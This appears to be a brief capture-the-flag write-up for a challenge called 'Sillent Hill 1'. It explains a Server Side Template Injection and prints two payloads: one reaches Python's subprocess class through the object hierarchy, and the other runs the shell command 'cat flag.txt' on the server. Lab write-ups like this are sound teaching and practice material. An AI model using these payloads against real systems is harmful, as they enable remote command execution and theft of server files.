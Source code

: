 # Sillent Hill 1


![chall_head](chall_head.png)


This challenge is a basic SSTI (Server Side Template Injection). By injecting a simple payload, it's possible to retreive subprocess library.


```py
{{ ''.__class__.__mro__[1].__subclasses__()[395]}}
```

It's possible to get the flag by running a simple command.

```py
{{ ''.__class__.__mro__[1].__subclasses__()[395]("cat flag.txt", shell=True, stdout=-1).communicate()}}
```

![screen1](screen1.png)

